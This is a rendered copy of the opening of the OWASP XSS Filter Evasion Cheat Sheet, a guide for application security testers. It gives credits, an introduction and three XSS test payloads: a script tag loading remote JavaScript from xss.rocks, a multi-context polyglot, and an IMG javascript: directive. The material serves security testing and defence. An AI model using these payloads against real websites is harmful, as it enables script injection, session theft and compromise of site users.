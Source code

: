[Link](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

XSS Filter Evasion Cheat Sheet
==============================

**Author:** Jim Manico, Robert RSnake Hansen  
**Contributor(s):** Abdullah Hussam, Michael McCabe, Luke Plant, Randomm, David Shaw, ALange, Matt Tesauro, Adam Caudill, Anandu, DhirajMishra, Ono, Bill Sempf, Dan Wallis, Peter Mosmans, Dominique Righetto, Agit Kaplan, kingthorin  

Introduction
============

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake’s XSS Cheat Sheet, so we can thank RSnake for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the [OWASP Cheat Sheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

Tests
=====

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

Basic XSS Test Without Filter Evasion
-------------------------------------

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

`<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

XSS Locator (Polygot)
---------------------

The following is a “polygot test XSS payload.” This test will execute in multiple contexts including html, script string, js and url. Thank you to [Gareth Heyes](https://twitter.com/garethheyes) for this [contribution](https://twitter.com/garethheyes/status/997466212190781445).

`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`

Image XSS Using the JavaScript Directive
----------------------------------------

Image XSS using the JavaScript directive (IE7.0 doesn’t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

`<IMG SRC="javascript:alert('XSS');">`
